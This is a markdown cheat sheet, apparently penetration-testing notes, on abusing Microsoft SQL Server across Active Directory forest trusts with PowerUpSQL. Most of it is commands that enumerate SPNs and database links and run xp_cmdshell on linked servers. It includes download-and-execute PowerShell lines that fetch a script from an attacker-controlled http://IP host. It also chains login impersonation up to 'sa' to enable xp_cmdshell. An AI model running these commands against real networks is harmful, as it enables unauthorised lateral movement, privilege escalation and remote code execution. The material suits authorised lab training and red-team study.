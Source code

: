 ## Forest Trusts MSSQL Abuse [ Part 1 ]

## Methodology/Steps
> 1. Check the SPN's
> 2. Check which SPN's you have access to
> 3. Check the Privileges you have of the above filtered SPN's
> 4. Keep note of the **Instance-Name**, **ServicePrincipalName** and the **DomainAccount-Name**
> 5. If you find any service with *higher privileges* continue below to abuse it

## 1. Enumerate SPN
```powershell
Get-SQLInstanceDomain
```

## 2. Check Access
```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

## 3. Check Privileges / Gather Infromation
```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

# Extra
## Check impersonation rights
```powershell
Invoke-SQLAudit -Verbose -Instance <instanceName>
```
---

# MSSQL Database Links [ MSSQL Abuse ; Part 2 ]

## Methodology/Steps
> 1. Check the SQL Server link
> 2. Keep note if you have link to any other database in **DatabaseLinkName**
> 3. If SysAdmin:0 means that we will not be allowed to enable **xp_cmdshell**
> 4. Keep on enumerating and check all the linked databases you have access to
> 5. Now we can try to execute commands through out all the linked databases found

## 1. Enumerate SQL Server links
```powershell
Get-SQLServerLink -Instance <instanceName> -Verbose
select * from master..sysservers
```

## 2. Enumerate DB links
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mysql -Verbose
select * from openquery("<instanceName>",'select * from openquery("<linkedInstance>",''select * from master..sysservers'')')
```

## 3. Execute commands on target server
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mysql -Query "exec master..xp_cmdshell 'whoami'" | ft
```

## 4. Download file on target server
```powershell
Get-SQLServerLinkCrawl -Instance <instanceName> -Query 'exec master..xp_cmdshell "powershell -c iex (new-object net.webclient).downloadstring(''http://IP:8080/Invoke-HelloWorld.ps1'',''C:\Windows\Temp\Invoke-HelloWorld.ps1'')"'
```

# Extra Commands
## Impersonate an user
```powershell
Invoke-SQLAuditPrivImpersonateLogin -Instance <instanceName> -Exploit -Verbose

#Then, we can EXECUTE AS, and chained the 'EXECUTE AS'
Get-SQLServerLinkCrawl -Verbose -Instance <instanceName> -Query "EXECUTE AS LOGIN = 'dbuser'; EXECUTE AS LOGIN = 'sa'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE; EXEC master..xp_cmdshell 'powershell -c iex (new-object net.webclient).downloadstring(''http://IP/Invoke-HelloWorld.ps1'')'"
```

## Basic SQL Server queries for DB enumeration
Also works with **Get-SQLServerLinkCrawl**
```powershell
#View all db in an instance
Get-SQLQuery -Instance <instanceName> -Query "SELECT name FROM sys.databases"

#View all tables
Get-SQLQuery -Instance <instanceName> -Query "SELECT * FROM dbName.INFORMATION_SCHEMA.TABLES" 

#View all cols in all tables in a db
Get-SQLQuery -Instance <instanceName> -Query "SELECT * FROM dbName.INFORMATION_SCHEMA.columns"

#View data in table
Get-SQLQuery -Instance <instanceName> -Query "USE dbName;SELECT * FROM tableName"
```